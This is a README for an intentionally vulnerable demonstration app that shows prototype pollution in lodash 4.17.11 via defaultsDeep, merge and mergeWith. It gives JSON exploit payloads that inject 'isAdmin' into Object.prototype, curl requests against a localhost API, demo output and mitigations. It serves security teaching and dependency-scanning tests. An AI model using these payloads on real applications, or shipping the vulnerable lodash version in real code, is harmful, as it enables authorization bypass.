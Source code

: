 # Dependabot Reachability Analysis - Vulnerable Lodash Demo

This repository demonstrates prototype pollution vulnerabilities in lodash 4.17.11, specifically:

- **CVE-2019-10744** (GHSA-jf85-cpcp-j695): Prototype pollution via `defaultsDeep`
- **CVE-2018-3721** (GHSA-fvqr-27wr-82fm): Prototype pollution via `merge` and `mergeWith`

## 🚨 Security Warning

This application intentionally contains security vulnerabilities for educational and testing purposes. **DO NOT USE IN PRODUCTION ENVIRONMENTS**.

## Vulnerability Overview

### CVE-2019-10744 
- **Affected Function**: `_.defaultsDeep()`
- **Affected Versions**: lodash < 4.17.12
- **Impact**: Prototype pollution leading to potential property injection
- **CVSS Score**: 9.1 (Critical)

### CVE-2018-3721
- **Affected Functions**: `_.merge()`, `_.mergeWith()`  
- **Affected Versions**: lodash < 4.17.11
- **Impact**: Prototype pollution leading to potential property injection
- **CVSS Score**: 6.1 (Medium)

## Setup and Installation

```bash
# Clone the repository
git clone https://github.com/octofelickz/dependabot-reachability-analysis.git
cd dependabot-reachability-analysis

# Install dependencies (including vulnerable lodash 4.17.11)
npm install

# Run the demonstration script
node demo.js

# Start the web application
npm start
```

## Demo Application

The web application runs on `http://localhost:3000` and provides:

1. **Interactive Web Interface**: Test vulnerabilities through a user-friendly form
2. **API Endpoints**: Direct API access for automated testing
3. **Real-time Status**: Check current prototype pollution state
4. **Reset Functionality**: Clean up prototype pollution between tests

### API Endpoints

- `GET /api/status` - Check current prototype pollution status
- `POST /api/defaults-deep` - Test CVE-2019-10744 via defaultsDeep
- `POST /api/merge` - Test CVE-2018-3721 via merge  
- `POST /api/merge-with` - Test CVE-2018-3721 via mergeWith
- `POST /api/reset` - Reset prototype pollution

### Example Exploit Payloads

**CVE-2019-10744 (defaultsDeep):**
```json
{
  "constructor": {
    "prototype": {
      "isAdmin": true
    }
  }
}
```

**CVE-2018-3721 (merge/mergeWith):**
```json
{
  "constructor": {
    "prototype": {
      "polluted": "value"
    }
  }
}
```

## Demonstration Results

### Command Line Demo Output

```
🚨 Lodash Vulnerability Demonstration
=====================================
Lodash version: 4.17.11

1. Testing CVE-2019-10744 (defaultsDeep):
Payload: {"constructor": {"prototype": {"isAdmin": true}}}
✅ Prototype successfully polluted via defaultsDeep!

2. Testing CVE-2018-3721 (merge):
❌ merge pollution failed (fixed in 4.17.11)

3. Testing CVE-2018-3721 (mergeWith):
❌ mergeWith pollution failed (fixed in 4.17.11)
```

### API Test Results

**Status Check (before exploitation):**
```bash
curl http://localhost:3000/api/status
{"prototypePolluded":false,"lodashVersion":"4.17.11"}
```

**Exploit via defaultsDeep:**
```bash
curl -X POST http://localhost:3000/api/defaults-deep \
  -H "Content-Type: application/json" \
  -d '{"constructor": {"prototype": {"isAdmin": true}}}'

{"success":true,"message":"defaultsDeep executed","result":{},"testObject":{},"prototypePolluded":true,"isAdmin":true}
```

**Status Check (after exploitation):**
```bash
curl http://localhost:3000/api/status
{"prototypePolluted":true,"isAdmin":true,"lodashVersion":"4.17.11"}
```

## Security Analysis

### Impact of Prototype Pollution

Prototype pollution can lead to:
- **Property Injection**: Attackers can add properties to all objects
- **Security Bypass**: `isAdmin`, `isAuthenticated` properties can be injected
- **Denial of Service**: Overwriting critical prototype methods
- **Code Execution**: In some scenarios, can lead to RCE

### Version Analysis

Our testing shows:
- **lodash 4.17.11**: Vulnerable to CVE-2019-10744 (`defaultsDeep`)
- **CVE-2018-3721**: Appears to be fixed in 4.17.11 (affects earlier versions)

### Mitigation

1. **Upgrade lodash**: Use version 4.17.21 or later
2. **Input Validation**: Sanitize user input before processing
3. **Object Freezing**: Use `Object.freeze()` on prototypes
4. **Safe Parsing**: Avoid `JSON.parse()` with untrusted data
5. **CSP Headers**: Implement Content Security Policy

## Testing with Playwright

```bash
# Install test dependencies
npm install

# Run automated tests (requires browser installation)
npm test

# Run tests in headed mode
npm run test:headed
```

The Playwright tests demonstrate:
- Web UI interaction with vulnerable functions
- API endpoint exploitation
- Screenshot capture for documentation
- Automated verification of prototype pollution

## Repository Structure

```
├── server.js              # Express server with vulnerable endpoints
├── public/
│   └── index.html         # Web interface for testing
├── tests/
│   └── vulnerability.spec.js  # Playwright test suite
├── demo.js               # Command-line vulnerability demo
├── package.json          # Dependencies (including lodash 4.17.11)
├── package-lock.json     # Locked dependency versions
└── README.md            # This documentation
```

## Dependencies

- **lodash@4.17.11**: Vulnerable version for demonstration
- **express**: Web server framework
- **playwright**: End-to-end testing and screenshots

## Contributing

This is a security demonstration repository. If you find additional vulnerabilities or have improvements to the demonstration, please open an issue or pull request.

## License

This project is for educational purposes only. Use responsibly and only in authorized testing environments.
